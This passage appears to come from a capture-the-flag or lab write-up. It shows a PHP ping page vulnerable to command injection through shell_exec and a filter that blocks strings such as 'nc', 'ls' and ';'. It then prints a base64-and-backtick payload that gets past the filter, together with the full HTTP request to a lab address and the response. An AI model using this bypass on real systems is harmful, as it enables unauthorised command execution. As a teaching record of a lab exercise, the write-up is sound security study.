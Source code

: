 ```http
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
...
```

> The application seems to filter every of the following strings: `; && / bin & ls nc dir pwd`
{: .prompt-danger }

We can use the following concept to bypass the filter.  
At first we `base64` encode our desired command.
```bash
$ echo "pwd" |base64
cHdkCg==
```

Then we construct the following payload
```bash
|`echo "cHdkCg==" |base64 -d`
```

Lets execute the request
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 64
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127|`echo%20%22cHdkCg==%22%20|base64%20-d`&submitt=Submit

HTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 17:42:45 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 177
Connection: close
Content-Type: text/html; charset=UTF-8

<form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>

<pre>/var/www/html
</pre>
```
